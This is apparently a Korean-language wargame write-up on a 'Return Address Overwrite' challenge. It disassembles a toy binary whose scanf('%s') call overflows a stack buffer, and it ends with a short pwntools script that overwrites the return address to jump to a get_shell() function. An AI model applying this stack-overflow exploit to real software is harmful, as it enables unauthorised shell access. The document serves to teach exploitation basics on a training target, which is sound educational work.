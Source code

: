 # Return Address Overwrite

이 문서는 사용자 입력을 기반으로 발생하는 스택 버퍼 오버플로우 취약점을 이용해
정의된 내부 함수(get_shell)를 호출하는 방식으로 쉘을 획득하는 구조를 분석한 기록입니다.

## 원본 C코드 요약

```c
int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

## 어셈블리 분석

### main

```asm
0x4006ec <main+4>     sub    rsp, 0x30 
```

- `rsp`에 `0x30(48 바이트)` 스택 공간을 확보.

```asm
0x4006f0 <main+8>     mov    eax, 0
```

- `eax`레지스터에 `0`의 값 복사
- 함수 호출전 준비 상태

```asm
0x4006f5 <main+13>    call   init
```

- `init` 함수 호출

---

#### init

```asm
0x400667 <init>       push   rbp
0x400668 <init+1>     mov    rbp, rsp 
```

- `push rbp`으로 **현재 함수가 끝난 뒤, 이전 함수로 정확하게 돌아가기 위한 기준점 저장**
- `mov rbp, rsp`으로 새로운 스택 프레임으로 전환.

```asm
0x40066b <init+4>     mov    rax, qword ptr [rip + 0x2009ee]
```

- `rip` 명령어 주소: `0x400672`
- `[rip + 0x2009ee]` 연산 수행 → `0x400672` + `0x2009ee` = `0x240a560`
- `0x240a560` 주소의 값: `0x7ffff7f998e0 (_IO_2_1_stdin_)` 
- `0x7ffff7f998e0 (_IO_2_1_stdin_)` 값을 `rax` 레지스터 에게 전달

```asm
0x400672 <init+11>    mov    ecx, 0
```

- `rcx`레지스터 에게 `0`의 값 복사
- `rcx` 은 네 번째 인자

```asm
0x400677 <init+16>    mov    edx, 2
```

- `edx`레지스터 에게 `2`의 값 복사
- `edx` 은 세 번째 인자

```asm
0x40067c <init+21>    mov    esi, 0
```

- `esi`레지스터 에게 `0`의 값 복사
- `esi` 은 두 번째 인자

```asm
0x400681 <init+26>    mov    rdi, rax 
```

- `rax`의 값: `0x7ffff7f998e0 (_IO_2_1_stdin_)`
- `rdi` 레지스터 에게 `rax`의 값 `0x7ffff7f998e0 (_IO_2_1_stdin_)`을 복사
- `rdi` 은 첫 번째 인자

```asm
0x400684 <init+29>    call   setvbuf@plt 
```

- `setvbuf` 함수 호출
> 최종: **setvbuf(0x7ffff7f998e0 (_IO_2_1_stdin_), 0(NULL), 2, 0);**

```asm
0x400689 <init+34>    mov    rax, qword ptr [rip + 0x2009c0]
```

- `rip` 명령어 주소: `0x400690`
- `[rip + 0x2009c0]` 연산 수행 → `0x400690` + `0x2009c0` = `0x240a050`
- `0x240a050` 주소의 값: `0x7ffff7f9a5c0 (_IO_2_1_stdout_)` 
- `0x7ffff7f9a5c0 (_IO_2_1_stdout_)` 값을 `rax` 레지스터 에게 전달

```asm
0x400690 <init+41>    mov    ecx, 0                            
0x400695 <init+46>    mov    edx, 2                              
0x40069a <init+51>    mov    esi, 0                              
0x40069f <init+56>    mov    rdi, rax                           
```

- 위와 동일

```asm
0x4006a2 <init+59>    call   setvbuf@plt
```

- `setvbuf` 함수 호출
> 최종: **setvbuf(0x7ffff7f9a5c0 (_IO_2_1_stdout_), 0(NULL), 2, 0);**

```asm
0x4006a7 <init+64>    nop    
0x4006a8 <init+65>    pop    rbp          
0x4006a9 <init+66>    ret                                <main+18>
```

- 함수 종료를 위한 에필로그로, `ret` 명령어는 스택에서 리턴 주소를 꺼내 실행 흐름을 복귀시킴.(main 복귀)

최종 C언어
```c
void init() {
    setvbuf(0x7ffff7f998e0 (_IO_2_1_stdin_), 0(NULL), 2, 0);
    setvbuf(0x7ffff7f9a5c0 (_IO_2_1_stdout_), 0(NULL), 2, 0);
}
```

---

### main

```asm
0x4006fa <main+18>    lea    rdi, [rip + 0xbb]
```

- `rip` 명령어 주소: `0x400701`
- `[rip + 0xbb]` 연산 수행 → `0x400701` + `0xbb` = `0x4007bc`
- `0x4007bc` 주소 안의 값: `0x4007bc`: `"Input: "`
- `[rip + 0xbb]` 주소 `0x4007bc` 을 `rdi` 레지스터 에게 로드
- `rdi`는 첫 번째 인자

```asm
0x400701 <main+25>    mov    eax, 0
```

- `printf` 호출 직전, SysV ABI 규약에 따라 가변 인자 함수 호출 준비를 위해 `eax`를 0으로 초기화함.

```asm
0x400706 <main+30>    call   printf@plt
```

- `printf` 함수 호출
> 최종 결과: **printf("Input: ")**

```asm
0x40070b <main+35>    lea    rax, [rbp - 0x30]
```

- `rbp` 레지스터 값: `0x7fffffffdd60`
- `[rbp - 0x30]` 연산 수행 → `0x7fffffffdd60` - `0x30(48)` = `0x7fffffffdd30`
- `0x7fffffffdd30` 을 `rax` 레지스터 에게 로드

```asm
0x40070f <main+39>    mov    rsi, rax
```

- `rsi` 레지스터 에게 `rax` 의 값(`0x7fffffffdd30`) 복사
- `rsi` 는 두 번째 인자

```asm
0x400712 <main+42>    lea    rdi, [rip + 0xab]
```

- `rip` 명령어 주소: `0x400719`
- `[rip + 0xab]` 연산 수행 → `0x400719` + `0xab` = `0x4007c4`
- `0x4007c4` 주소 안의 값 분석: **`0x4007c4`: `"%s"`**
- `rdi` 레지스터 에게 `0x4007c4` 주소를 로드
- `rdi` 는 첫 번째 인자

```asm
0x400719 <main+49>    mov    eax, 0 
```

- `printf` 호출 직전, SysV ABI 규약에 따라 가변 인자 함수 호출 준비를 위해 `eax`를 0으로 초기화함.

```asm
0x40071e <main+54>    call   __isoc99_scanf@plt
```

- `scanf` 함수 호출
> 최종: **scanf("%s", 0x7fffffffdd30(입력 결과가 저장되는 주소));**

```asm
0x400723       <main+59>                       mov    eax, 0                
0x400728       <main+64>                       leave  
0x400729       <main+65>                       ret
```

- main 함수의 종료 에필로그로, `leave → ret`를 통해 정상 종료함.

최종 main C언어

```c
int main() {
    char 0x7fffffffdd30[48];  // sub rsp, 0x30
    init();
    printf("Input: ");
    scanf("%s", 0x7fffffffdd30);
    return 0;
}
```

## 결론

### 구조 분석

- `scanf("%s", buf)`는 입력을 `0x7fffffffdd30` 위치에 저장함 `(buf 시작 주소)`.
-  함수 내 `sub rsp, 0x30`으로 인해 스택에 총 48바이트의 버퍼 공간이 확보됨 (`buf[0x28]` + padding).
- 하지만 `scanf("%s", ...)`는 길이 제한이 없어 **버퍼 오버플로우(BOF) 가 발생 가능**함.

### 익스플로잇 포인트

- BOF를 이용해 `saved RBP (8바이트)`와 `rip (8바이트)`를 덮을 수 있음.
- 최종적으로 `rip`를 `get_shell()` 주소(`0x4006aa`)로 덮어 **쉘 실행** 가능.
- 이를 기반으로 파이썬 스크립트를 작성하여 익스플로잇 수행함.

### 스크립트

```python
from pwn import *

p = process("./ret_overwrite")

payload = b'A' * 48 + b'B' * 8 + p64(0x4006aa)
p.sendline(payload)
p.interactive()              
```
